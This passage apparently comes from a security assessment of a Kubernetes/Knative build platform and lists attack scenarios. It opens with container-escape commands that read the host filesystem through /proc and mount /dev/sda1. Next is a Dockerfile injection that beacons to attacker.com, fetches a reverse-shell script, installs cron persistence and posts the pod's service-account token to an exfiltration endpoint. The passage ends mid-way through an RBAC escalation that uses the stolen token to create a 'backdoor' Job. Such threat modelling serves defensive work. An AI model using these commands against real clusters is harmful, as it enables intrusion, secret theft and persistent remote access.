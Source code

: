 ```bash

# Get access to node filesystem via /proc
cat /proc/1/cgroup  # Get host info
ls -la /proc/1/root  # Access host filesystem

# Mount host filesystem
mkdir /tmp/host
mount /dev/sda1 /tmp/host
```

#### Exploit: Malicious Dockerfile Injection
```dockerfile
# Inject into build template
FROM node:18-alpine

# Stage 1: Recon
RUN apk add curl \
    && curl http://attacker.com/beacon?host=$(hostname)

# Stage 2: Download reverse shell
RUN wget http://attacker.com/shell.sh -O /tmp/s.sh \
    && chmod +x /tmp/s.sh

# Stage 3: Persistence (survives container rebuild)
RUN echo '*/5 * * * * /tmp/s.sh' | crontab -

# Stage 4: Exfiltrate K8s secrets
RUN curl -X POST http://attacker.com/exfil \
    -d "token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"

# Stage 5: Your "legitimate" code
COPY . /app
```

---

### 2. Kubernetes API Exploitation (P0)

#### Attack Scenario: RBAC Privilege Escalation
```bash
# ATTACK: Abuse overly permissive ServiceAccount

# Step 1: Get ServiceAccount token from pod
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc

# Step 2: Check what we can do
curl -k -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -d '{"kind":"SelfSubjectRulesReview","apiVersion":"authorization.k8s.io/v1","spec":{"namespace":"knative-lambda"}}'

# Step 3: Can we create jobs? (Build jobs = code execution!)
curl -k -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/batch/v1/namespaces/knative-lambda/jobs \
  -d @- << EOF
{
  "apiVersion": "batch/v1",
  "kind": "Job",
  "metadata": {"name": "backdoor"},
  "spec": {
    "template": {
      "spec": {
        "containers": [{
```